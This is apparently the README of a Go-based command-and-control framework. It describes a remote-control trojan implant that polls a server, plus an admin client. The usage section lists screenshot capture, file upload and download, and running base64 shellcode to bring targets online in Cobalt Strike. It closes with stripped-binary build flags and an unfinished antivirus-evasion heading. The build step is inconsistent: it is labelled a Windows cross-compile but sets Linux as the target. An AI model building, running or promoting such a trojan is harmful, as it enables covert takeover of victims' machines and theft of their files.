

一个使用GO语言开发的C2

项目基于：https://github.com/newbe3three/gotoexec

项目分为三个独立的部分：植入程序、服务端程序和管理程序

- 植入程序是运行在目标机器上的远控木马的一部分。植入程序会定期轮询服务器以查找新的命令，然后将命令输出发回给服务器
- 管理程序是运行在用户机器上的客户端，用于发出实际的命令
- 服务端则负责与植入程序和客户端的交互，接收客户端的指令，并在植入程序请求时，将命令发送给植入程序，随后将植入程序发送来的结果传递给客户端


### 使用

server：运行在服务端，通过参数 iport 和 aport 指定植入程序和客户端对应的端口号

```bash
server.exe -iport 1961 -aport 1962

-aport int
    	Admin server port (default 1962)
-iport int
    	Implant server port (default 1961)
```

client 

```bash
client.exe -session start -IP 127.0.0.1 -port 1962 -sleep 5

-ip string
        Server IP (default "127.0.0.1")
-port int
        AdminServer Port (default 1962)
 -session string
        start session
 -sleep int
        sleep time
```

### 现有功能

```bash
截图：	screenshot
上传：	upload 本地文件 目标文件  
下载：	download 目标文件 本地文件
执行shellcode上线cs：gotocs shellcode|base64
```

截图以 png 格式保存 client.exe 运行目录下

上传、下载文件大小限制在 10MB 内

要执行的的shellcode需要先base64转码，作为参数传入，执行后client将作为加载shellcode上线cs

#### 编译命令

```bash
# windows 交叉编译
go env -w CGO_ENABLED=0 
go env -w GOOS=linux
go build -ldflags "-s -w" -trimpath -o output.exe
```

目前免杀效果：

